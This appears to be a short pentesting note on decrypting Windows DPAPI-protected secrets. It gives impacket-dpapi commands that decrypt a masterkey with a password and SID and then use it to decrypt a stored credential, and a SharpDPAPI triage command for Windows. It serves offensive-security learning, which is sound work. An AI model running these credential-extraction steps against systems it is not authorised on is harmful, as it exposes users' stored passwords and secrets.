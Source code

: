 # DPAPI Secrets

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**DPAPI Secrets**</mark> could be any data, as example browser creds, password manager data, vault creds.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption><p>Image from Synacktiv article below</p></figcaption></figure>

## <mark style="color:yellow;">LINUX</mark>

> We'll be decrypting Secret with impacket's dpapi tool.

For decrypting DPAPI secret we need 3 things, and 2 of them are files which we need to install:

1. Masterkey (filename is guid)
2. DPAPI Secret
3. SID of user encrypted (directory where Secret located)
4. One of 5 things from scheme above, I'll use password for example.

### <mark style="color:blue;">Decrypting Secret</mark>

1. Decrypting Masterkey with password's hash and SID

```bash
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'password123' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```

2. Using decrypted Masterkey to decrypt Secret

```bash
impacket-dpapi credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

## <mark style="color:yellow;">WINDOWS</mark>

> For Windows I only used SharpDPAPI for triaging certificates

### <mark style="color:blue;">SharpDPAPI</mark>

```powershell
.\SharpDPAPI.exe triage
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets#practice" %}

{% embed url="https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary" %}

{% embed url="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/SharpDPAPI.exe" %}
